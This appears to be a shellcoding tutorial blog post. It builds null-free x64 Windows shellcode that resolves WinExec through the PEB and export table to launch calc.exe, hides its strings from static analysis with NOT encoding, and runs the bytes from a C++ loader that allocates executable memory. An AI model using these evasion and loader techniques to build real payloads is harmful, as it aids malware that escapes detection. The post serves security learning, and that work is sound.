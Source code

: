 ```yaml
---
title:  "x64 Assembly & Shellcoding 101 - Part 4"
header:
  teaser: "/assets/images/asm-part4.png"
categories:
  - Shellcoding
  - Assembly
  - Debugging
tags:
  - Shellcoding
  - x64
  - x64dbg
  - '2024'
  - nasm
  - assembly
  - debugging
---
```


Hey all!  This will be a shorter post today, so I'll get right to it.  Let's talk shellcode basic encoding functionality built in to x64 assembly instructions.  What we're really talking about here is bitwise operations.  I'm going to use the `NOT` bitwise command to 'encode' all strings within our assembly code. This way, it's harder for static analysis efforts to succeed when searching for strings 😸 I took the liberty of trimming up the code we've been using to execute calc.exe using WinExec.  I'll likely go back and retroactively clean up some code in the previous posts in this series at some point too.  

Here's the portion of code with the `NOT` instruction added after the string.  I have already performed a NOT against the original unencoded string so these `NOT` instructions are to perform decoding operations.
```nasm
mov rax, 0x6F9C9A87BA9196A8   ; WinExec 'encoded'
not rax

mov rax, 0x9A879AD19C939E9C    ; encoded calc.exe ;)
not rax
```
**and the full code below:**
```nasm
;nasm -fwin64 [x64findkernel32.asm]
;ld -m i386pep -o x64findkernel32.exe x64findkernel32.obj
BITS 64
SECTION .text
global main
main:
sub rsp, 0x28
and rsp, 0xFFFFFFFFFFFFFFF0
xor rcx, rcx             ; RCX = 0
mov rax, [gs:rcx + 0x60] ; RAX = PEB
mov rax, [rax + 0x18]    ; RAX = PEB->Ldr
mov rsi,[rax+0x10]       ;PEB.Ldr->InMemOrderModuleList
mov rsi, [rsi]
mov rsi,[rsi]
mov rbx, [rsi+0x30]      ;kernel32.dll base address
mov r8, rbx              ; mov kernel32.dll base addr into r8
;Code for parsing Export Address Table
mov ebx, [rbx+0x3C]           ; Get Kernel32 PE Signature (offset 0x3C) into EBX
add rbx, r8                   ; Add signature offset to kernel32 base. Store in RBX.
xor rcx, rcx                  ; Avoid null bytes from mov edx,[rbx+0x88] by using rcx register to add
add cx, 0x88ff
shr rcx, 0x8                  ; RCX = 0x88ff --> 0x88
mov edx, [rbx+rcx]            ; EDX = [&NewEXEHeader + Offset RVA ExportTable] = RVA ExportTable
add rdx, r8                   ; RDX = kernel32.dll + RVA ExportTable = ExportTable Address
mov r10d, [rdx+0x14]          ; Number of functions
xor r11, r11                  ; Zero R11 before use
mov r11d, [rdx+0x20]          ; AddressOfNames RVA
add r11, r8                   ; AddressOfNames VMA
mov rcx, r10                  ; Set loop counter
mov rax, 0x6F9C9A87BA9196A8   ; WinExec 'encoded'
not rax
shl rax, 0x8
shr rax, 0x8
push rax
mov rax, rsp	
add rsp, 0x8
kernel32findfunction:             ; Loop over Export Address Table to find WinApi names
    jecxz FunctionNameNotFound    ; Loop around this function until we find WinExec
    xor ebx,ebx                   ; Zero EBX for use
    mov ebx, [r11+rcx*4]          ; EBX = RVA for first AddressOfName
    add rbx, r8                   ; RBX = Function name VMA / add kernel32 base address to RVA and get WinApi name
    dec rcx                       ; Decrement our loop by one, this goes from Z to A
    mov r9, qword [rax]                ; R9 = "our API"
    cmp [rbx], r9                      ; Compare all bytes
    jz FunctionNameFound               ; If match, function found
	jnz kernel32findfunction
FunctionNameNotFound:
int3
FunctionNameFound:                ; Get function address from AddressOfFunctions
   inc ecx                        ; increase counter by 1 to account for decrement in loop
   xor r11, r11
   mov r11d, [rdx+0x1c]           ; AddressOfFunctions RVA
   add r11, r8                    ; AddressOfFunctions VMA in R11. Kernel32+RVA for addressoffunctions
   mov r15d, [r11+rcx*4]          ; Get the function RVA.
   add r15, r8                    ; Found the Winexec WinApi and all the while skipping ordinal lookup! w00t!
   xor rax, rax
   push rax
   mov rax, 0x9A879AD19C939E9C    ; encoded calc.exe ;)
   not rax
   push rax
   mov rcx, rsp	                 
   xor rdx, rdx
   inc rdx
   sub rsp, 0x30
   call r15                       ; Call WinExec
```

**Here's a lame trick you can use if you want to decode / encode using `NOT` without having to use assembly.  Use the calculator!  Yes, we're going to use the calculator. I can't seem to get enough of it, it seems. 😸**

![image](https://github.com/user-attachments/assets/0c1103af-9a3d-44d6-99bb-32ec86422c1b)

**This gives us the original, unencoded string:**

![image](https://github.com/user-attachments/assets/8c6c934c-198e-4e88-805b-704b9e78ba96)

**This is nice because you can quickly decode and encode your strings to make sure everything is in working order before committing to your code.  As always, we want to strip this down to just shellcode, make sure it has no NULLs, and execute it!  We'll start with the basic objdump output to work off of:**

```nasm
winexec_nonulls.o:     file format pe-x86-64


Disassembly of section .text:

0000000000000000 <main>:
   0:	48 83 ec 28          	sub    $0x28,%rsp
   4:	48 83 e4 f0          	and    $0xfffffffffffffff0,%rsp
   8:	48 31 c9             	xor    %rcx,%rcx
   b:	65 48 8b 41 60       	mov    %gs:0x60(%rcx),%rax
  10:	48 8b 40 18          	mov    0x18(%rax),%rax
  14:	48 8b 70 10          	mov    0x10(%rax),%rsi
  18:	48 8b 36             	mov    (%rsi),%rsi
  1b:	48 8b 36             	mov    (%rsi),%rsi
  1e:	48 8b 5e 30          	mov    0x30(%rsi),%rbx
  22:	49 89 d8             	mov    %rbx,%r8
  25:	8b 5b 3c             	mov    0x3c(%rbx),%ebx
  28:	4c 01 c3             	add    %r8,%rbx
  2b:	48 31 c9             	xor    %rcx,%rcx
  2e:	66 81 c1 ff 88       	add    $0x88ff,%cx
  33:	48 c1 e9 08          	shr    $0x8,%rcx
  37:	8b 14 0b             	mov    (%rbx,%rcx,1),%edx
  3a:	4c 01 c2             	add    %r8,%rdx
  3d:	44 8b 52 14          	mov    0x14(%rdx),%r10d
  41:	4d 31 db             	xor    %r11,%r11
  44:	44 8b 5a 20          	mov    0x20(%rdx),%r11d
  48:	4d 01 c3             	add    %r8,%r11
  4b:	4c 89 d1             	mov    %r10,%rcx
  4e:	48 b8 a8 96 91 ba 87 	movabs $0x6f9c9a87ba9196a8,%rax
  55:	9a 9c 6f 
  58:	48 f7 d0             	not    %rax
  5b:	48 c1 e0 08          	shl    $0x8,%rax
  5f:	48 c1 e8 08          	shr    $0x8,%rax
  63:	50                   	push   %rax
  64:	48 89 e0             	mov    %rsp,%rax
  67:	48 83 c4 08          	add    $0x8,%rsp

000000000000006b <kernel32findfunction>:
  6b:	67 e3 16             	jecxz  84 <FunctionNameNotFound>
  6e:	31 db                	xor    %ebx,%ebx
  70:	41 8b 1c 8b          	mov    (%r11,%rcx,4),%ebx
  74:	4c 01 c3             	add    %r8,%rbx
  77:	48 ff c9             	dec    %rcx
  7a:	4c 8b 08             	mov    (%rax),%r9
  7d:	4c 39 0b             	cmp    %r9,(%rbx)
  80:	74 03                	je     85 <FunctionNameFound>
  82:	75 e7                	jne    6b <kernel32findfunction>

0000000000000084 <FunctionNameNotFound>:
  84:	cc                   	int3

0000000000000085 <FunctionNameFound>:
  85:	ff c1                	inc    %ecx
  87:	4d 31 db             	xor    %r11,%r11
  8a:	44 8b 5a 1c          	mov    0x1c(%rdx),%r11d
  8e:	4d 01 c3             	add    %r8,%r11
  91:	45 8b 3c 8b          	mov    (%r11,%rcx,4),%r15d
  95:	4d 01 c7             	add    %r8,%r15
  98:	48 31 c0             	xor    %rax,%rax
  9b:	50                   	push   %rax
  9c:	48 b8 9c 9e 93 9c d1 	movabs $0x9a879ad19c939e9c,%rax
  a3:	9a 87 9a 
  a6:	48 f7 d0             	not    %rax
  a9:	50                   	push   %rax
  aa:	48 89 e1             	mov    %rsp,%rcx
  ad:	48 31 d2             	xor    %rdx,%rdx
  b0:	48 ff c2             	inc    %rdx
  b3:	48 83 ec 30          	sub    $0x30,%rsp
  b7:	41 ff d7             	call   *%r15
```

**Let's get only the shellcode:**
> for i in $(objdump -D winexec_nonulls.o | grep "^ " | cut -f2); do echo -n "\x$i" ; done

**Now, pop it into your c++ program and let er rip!**

```c++
#include <windows.h>
#include <iostream>

unsigned char shellcode[] =
"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41"
"\x60\x48\x8b\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36"
"\x48\x8b\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48\x31"
"\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01"
"\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3"
"\x4c\x89\xd1\x48\xb8\xa8\x96\x91\xba\x87\x9a\x9c\x6f\x48\xf7"
"\xd0\x48\xc1\xe0\x08\x48\xc1\xe8\x08\x50\x48\x89\xe0\x48\x83"
"\xc4\x08\x67\xe3\x16\x31\xdb\x41\x8b\x1c\x8b\x4c\x01\xc3\x48"
"\xff\xc9\x4c\x8b\x08\x4c\x39\x0b\x74\x03\x75\xe7\xcc\xff\xc1"
"\x4d\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x45\x8b\x3c\x8b\x4d"
"\x01\xc7\x48\x31\xc0\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87"
"\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\x31\xd2\x48\xff\xc2\x48"
"\x83\xec\x30\x41\xff\xd7";


int main() {

    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == nullptr) {
        std::cerr << "Memory allocation failed\n";
        return -1;
    }
    memcpy(exec_mem, shellcode, sizeof(shellcode));
    auto shellcode_func = reinterpret_cast<void(*)()>(exec_mem);
    shellcode_func();
    VirtualFree(exec_mem, 0, MEM_RELEASE);
    return 0;
}
```
**Forgot to mention, if you compile the exe and search for strings, you won't find winexec or calc, well...you'll see winexec_nonull since that's the filename, but not `WinExec` and `calc.exe`.  In a real world setting I'd change that. 😄  Check it out:**

![image](https://github.com/user-attachments/assets/8fcc5f09-2fd0-4905-9d31-e49b87f8b727)

And that's a wrap folks!  Maybe eventually I'll get around to moving beyond WinExec and onto other apis lol.  It'll happen...but until then take it easy!
